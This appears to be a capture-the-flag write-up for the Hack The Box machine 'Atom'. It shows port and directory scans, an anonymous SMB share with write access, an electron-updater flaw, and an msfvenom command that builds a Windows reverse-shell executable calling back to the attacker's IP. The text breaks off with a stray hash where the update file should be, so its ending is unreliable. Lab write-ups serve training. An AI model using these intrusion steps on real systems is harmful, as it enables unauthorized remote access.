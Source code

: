 
![Image Atom]()


## ------------->> Atom <<--------------

// We start with nmap scan

    $ nmap -sV -A -Pn -T4 10.10.10.237 -p-
-------

    Nmap scan report for 10.10.10.237
    Host is up (0.17s latency).
    Not shown: 65529 filtered tcp ports (no-response)
    PORT     STATE SERVICE    VERSION
    80/tcp   open  http       Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
    |_http-title: Heed Solutions
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
    135/tcp  open  msrpc      Microsoft Windows RPC
    443/tcp  open  ssl/http   Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-title: Heed Solutions
    | ssl-cert: Subject: commonName=localhost
    | Not valid before: 2009-11-10T23:48:47
    |_Not valid after:  2019-11-08T23:48:47
    |_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
    |_ssl-date: TLS randomness does not represent time
    | tls-alpn: 
    |_  http/1.1
    5985/tcp open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-title: Not Found
    |_http-server-header: Microsoft-HTTPAPI/2.0
    6379/tcp open  redis      Redis key-value store
    7680/tcp open  tcpwrapped
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

// Navigating to http://10.10.10.237/ present us with software product website

![Image 1]()

// Lets search for interesting directories or files with [dirsearch]()(By ).

    $ python3 dirsearch.py -u http://10.10.10.237/ -t 100
-------

      _|. _ _  _  _  _ _|_    v0.4.1
     (_||| _) (/_(_|| (_| )

    Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 100 | Wordlist size: 10903

    Output File: /home/r4r3/Desktop/HTB/main-Tools/web/directories_scanners/dirsearch/reports/10.10.10.237/_21-09-10_17-04-26.txt

    Error Log: /home/r4r3/Desktop/HTB/main-Tools/web/directories_scanners/dirsearch/logs/errors-21-09-10_17-04-26.log

    Target: http://10.10.10.237/

    ...
    [17:04:35] 403 -  302B  - /Trace.axd::$DATA
    [17:04:41] 403 -  302B  - /cgi-bin/
    [17:04:41] 500 -  636B  - /cgi-bin/printenv.pl
    [17:04:45] 301 -  338B  - /images  ->  http://10.10.10.237/images/
    [17:04:45] 200 -  984B  - /images/
    [17:04:45] 200 -    7KB - /index.html
    [17:04:46] 503 -  402B  - /examples/servlets/servlet/CookieExample
    [17:04:46] 503 -  402B  - /examples/servlets/index.html
    [17:04:46] 503 -  402B  - /examples/jsp/%252e%252e/%252e%252e/manager/html/
    [17:04:46] 503 -  402B  - /examples/jsp/snp/snoop.jsp
    [17:04:46] 503 -  402B  - /examples
    [17:04:46] 503 -  402B  - /examples/servlets/servlet/RequestHeaderExample
    [17:04:46] 503 -  402B  - /examples/
    [17:04:46] 503 -  402B  - /examples/servlet/SnoopServlet
    [17:04:48] 403 -  302B  - /phpmyadmin/docs/html/index.html
    [17:04:48] 403 -  302B  - /phpmyadmin/ChangeLog
    [17:04:48] 403 -  302B  - /phpmyadmin/doc/html/index.html
    [17:04:48] 403 -  302B  - /phpmyadmin/README
    [17:04:48] 403 -  302B  - /phpmyadmin
    [17:04:48] 403 -  302B  - /phpmyadmin/index.php
    [17:04:49] 403 -  302B  - /phpmyadmin/phpmyadmin/index.php
    [17:04:49] 403 -  302B  - /phpmyadmin/
    [17:04:49] 403 -  302B  - /phpmyadmin/scripts/setup.php
    [17:04:50] 301 -  340B  - /releases  ->  http://10.10.10.237/releases/
    [17:04:50] 403 -  421B  - /server-status/
    [17:04:50] 403 -  421B  - /server-status
    [17:04:50] 403 -  421B  - /server-info
    [17:04:53] 403 -  302B  - /web.config::$DATA
    [17:04:53] 403 -  302B  - /webalizer

    Task Completed

// Nothing we can further go with... Move on!

// Earlier with nmap we can see there SMB service open

// Lets check if it allows anonymous connection with smbmap

    $ smbmap -u anonymous -H 10.10.10.237
------
    
    [+] Guest session   	IP: 10.10.10.237:445	Name: 10.10.10.237                                      
            Disk                                                  	Permissions	Comment
      ----                                                  	-----------	-------
      ADMIN$                                            	NO ACCESS	Remote Admin
      C$                                                	NO ACCESS	Default share
      IPC$                                              	READ ONLY	Remote IPC
      Software_Updates                                  	READ, WRITE	

// It worked !, We can see that we have permission(READ, WRITE) only in directory Software_Updates

// Lets check him out

    $ smbmap -u anonymous -r Software_Updates -H 10.10.10.237
------

    [+] Guest session   	IP: 10.10.10.237:445	Name: 10.10.10.237                                      
            Disk                                                  	Permissions	Comment
      ----                                                  	-----------	-------
      Software_Updates                                  	READ, WRITE	
      .\Software_Updates\*
      dr--r--r--                0 Fri Sep 10 18:53:53 2021	.
      dr--r--r--                0 Fri Sep 10 18:53:53 2021	..
      dr--r--r--                0 Fri Sep 10 18:49:49 2021	client1
      dr--r--r--                0 Fri Sep 10 18:49:49 2021	client2
      dr--r--r--                0 Fri Sep 10 18:49:49 2021	client3
      fr--r--r--            35202 Fri Apr  9 07:18:08 2021	UAT_Testing_Procedures.pdf

// after checking client1,2,3 are empty so i downloaded 'UAT_Testing_Procedures.pdf' to see his content

    $ smbmap -u anonymous --download 'Software_Updates\UAT_Testing_Procedures.pdf' -H 10.10.10.237

![Image 2]()

// We can see that the pdf mantion electron-builder and that should be update-server

// After some digging [Electron builder](https://github.com/electron-userland/electron-builder) is:

    A complete solution to package and build a ready for distribution Electron, Proton Native app for macOS,
    Windows and Linux with “auto update” support out of the box.

// Digging some more found a vulnerability at electron-updater [here](https://snyk.io/test/npm/electron-updater/1.4.0)

![Image 3]()

// So lets try this, first we need to make .exe reverse shell, we will use msfvenom for that

    $ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.6 LPORT=1444 -f exe > rshell.exe
------

    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    No encoder specified, outputting raw payload
    Payload size: 324 bytes
    Final size of exe file: 73802 bytes

// Now we can make our 'latest.yml' file



f486053b0ed2b8e4d46b3c056b9f8dcdb9bb5d7f7f51ed03ae2a90d307e3fcdb2da28233e27527637fe8ab1c85e1c81f2894c92953894a2f94262d557da62b65

// The website offer us to download an .exe that demonstrate their notes software

